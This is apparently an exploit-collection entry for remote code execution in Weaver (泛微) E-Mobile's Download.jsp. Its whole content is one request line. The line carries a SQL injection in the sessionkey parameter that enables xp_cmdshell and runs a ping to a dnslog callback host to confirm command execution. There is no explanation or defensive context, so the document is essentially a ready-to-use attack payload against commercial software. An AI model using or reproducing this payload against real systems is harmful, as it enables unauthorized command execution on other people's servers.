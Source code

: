 # 泛微 E-Mobile Download.jsp 远程代码执行

    ```
mobile/plugin/Download.jsp?sessionkey=1' EXEC sp_configure 'show advanced options',1 RECONFIGURE EXEC sp_configure 'xp_cmdshell',1 RECONFIGURE exec master..xp_cmdshell 'ping 4a9c47b1.dnslog.click
```
